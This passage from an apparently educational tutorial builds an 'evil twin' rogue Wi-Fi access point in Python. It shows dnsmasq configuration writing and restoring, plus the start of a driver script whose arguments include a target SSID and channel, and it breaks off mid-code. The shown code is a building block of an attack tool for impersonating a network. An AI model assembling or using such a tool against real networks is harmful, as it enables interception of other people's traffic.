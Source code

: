         # make backup of existing configuration file
        shutil.copy(self.conf, '%s.evil_twin.bak' % self.conf)

        with open(self.conf, 'w') as fd:
        
            fd.write('\n'.join([
                'log-facility=%s' % log_facility,
                'interface=%s' % upstream,
                'dhcp-range=%s' % dhcp_range,
                '\n'.join('dhcp-option=%s' % o for o in dhcp_options),
            ]))
            if log_queries:
                fd.write('\nlog-queries')

    def restore(self):

        shutil.copy('%s.evil_twin.bak' % self.conf, self.conf)

{% endhighlight %}

# evil\_twin.py - set\_configs()

Now that we've finished our utils.py file, most the hard work is behind us.
We just need to implement our evil_twin.py driver file using the wrapper classes
we just defined. Let's first import our utils module, the time module, as well as
the ArgumentParser class from argparse.

{% highlight python %}
import utils
import time

from argparse import ArgumentParser
{% endhighlight %}

We then create a function for handing command line arguments and setting our script's
configuration.

{% highlight python %}
def set_configs():


    parser = ArgumentParser()

    parser.add_argument('-l',
                dest='upstream',
                required=True,
                type=str,
                metavar='<interface>',
                help='Use this interface as access point.')

    parser.add_argument('-i',
                dest='phys',
                required=True,
                type=str,
                metavar='<interface>',
                help='Use this interface to connect to network gateway.')

    parser.add_argument('-s',
                dest='ssid',
                required=True,
                type=str,
                metavar='<ssid>',
                help='The ssid of the target ap.')

    parser.add_argument('-c',
                dest='channel',
                required=True,
                type=int,